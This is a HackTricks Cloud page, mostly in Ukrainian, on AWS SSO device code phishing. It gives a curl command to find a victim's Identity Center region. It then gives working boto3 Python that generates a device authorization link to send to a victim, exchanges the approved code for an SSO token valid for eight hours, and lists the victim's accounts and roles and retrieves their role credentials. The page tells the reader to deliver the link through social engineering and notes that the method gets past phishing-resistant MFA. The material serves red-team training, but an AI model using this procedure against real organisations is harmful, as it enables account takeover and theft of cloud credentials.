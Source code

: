 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Спочатку запропоновано в [**цьому блозі**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), можливо надіслати **посилання** користувачу, який використовує AWS SSO, що, якщо **користувач прийме**, зловмисник зможе отримати **токен для видавання себе за користувача** та отримати доступ до всіх ролей, до яких користувач має доступ у **Identity Center**.

Для виконання цієї атаки необхідні такі умови:

* Жертва повинна використовувати **Identity Center**
* Зловмисник повинен знати **субдомен**, який використовує жертва `<victimsub>.awsapps.com/start`

Лише з цією інформацією **зловмисник зможе надіслати посилання користувачу**, яке, якщо **прийняте**, надасть **зловмиснику доступ до облікового запису AWS** користувача.

### Attack

1. **Finding the subdomain**

Перший крок зловмисника - дізнатися, який субдомен використовує компанія жертви в їх Identity Center. Це можна зробити за допомогою **OSINT** або **вгадування + BF**, оскільки більшість компаній використовуватимуть свою назву або варіацію своєї назви тут.

З цією інформацією можливо отримати регіон, в якому було налаштовано Identity Center:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Згенеруйте посилання для жертви та надішліть його**

Запустіть наступний код, щоб згенерувати посилання для входу в AWS SSO, щоб жертва могла аутентифікуватися.\
Для демонстрації запустіть цей код у консолі Python і не виходьте з неї, оскільки пізніше вам знадобляться деякі об'єкти для отримання токена:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Відправте згенероване посилання жертві, використовуючи свої чудові навички соціальної інженерії!

3. **Чекайте, поки жертва його прийме**

Якщо жертва **вже увійшла в AWS**, їй просто потрібно буде прийняти надання дозволів, якщо ні, їй потрібно буде **увійти в систему, а потім прийняти надання дозволів**.\
Ось як виглядає запит сьогодні:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Отримати токен доступу SSO**

Якщо жертва прийняла запит, запустіть цей код, щоб **згенерувати токен SSO, видаючи себе за користувача**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Токен доступу SSO є **дійсним протягом 8 годин**.

5. **Видавати себе за користувача**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Фішинг непіддатливого MFA

Цікаво знати, що попередня атака **працює навіть якщо використовується "непіддатливе MFA" (webAuth)**. Це тому, що попередній **робочий процес ніколи не залишає використаний домен OAuth**. На відміну від інших фішингових атак, де користувачеві потрібно підмінити домен входу, у випадку, коли робочий процес коду пристрою підготовлений так, що **код відомий пристрою**, і користувач може увійти навіть на іншій машині. Якщо підтвердити запит, пристрій, просто **знаючи початковий код**, зможе **отримати облікові дані** для користувача.

Для отримання додаткової інформації [**перегляньте цей пост**](https://mjg59.dreamwidth.org/62175.html).

### Автоматичні інструменти

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Посилання

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
